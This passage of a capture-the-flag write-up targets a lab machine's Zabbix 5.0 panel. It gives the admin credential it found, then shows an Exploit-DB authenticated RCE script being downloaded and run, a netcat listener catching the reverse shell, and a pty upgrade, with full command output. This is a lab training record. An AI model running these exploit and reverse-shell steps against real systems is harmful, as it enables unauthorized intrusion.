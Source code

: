 ## `http://monitor*.shibbleth.htb`

The login form for Shibboleth Data Systems' [Zabbix](https://www.zabbix.com/) instance, a business monitoring platform. According to the page's source code, it appears to be Zabbix version 5.0.

The default credential `Admin`:`zabbix` doesn't work. The `guest` account has been disabled.

### Content Discovery

TODO

### Exploits

The credential `Administrator`:`ilovepumkinpie1` grants access to the Zabbix administrative panel.

[5.0.17 Authenticated RCE](https://www.exploit-db.com/exploits/50816):

```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
```

```bash
$ curl -s https://www.exploit-db.com/raw/50816 > 50816.py
$ python3 50816.py
[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/
[!] usage : ./expoit.py <target url>  <username> <password> <attacker ip> <attacker port>
$ python3 50816.py http://monitor.shibboleth.htb Administrator 'ilovepumkinpie1' 10.10.14.14 80
[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/
[+] the payload has been Uploaded Successfully
[+] you should find it at http://monitor.shibboleth.htb/items.php?form=update&hostid=10084&itemid=33617
[+] set the listener at 80 please...
[?] note : it takes up to +1 min so be patient :)
[+] got a shell ? [y]es/[N]o: y
Nice !
```

```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.123.122] 47980
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
zabbix@shibboleth:/$ id
id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

Apache virtual host configuration indicates Zabbix source is at `/usr/share/zabbix/`.

- `setup.php`
- `hosts.php`
- `CSetupWizard.php`
- Configuration file at `/etc/zabbix/`
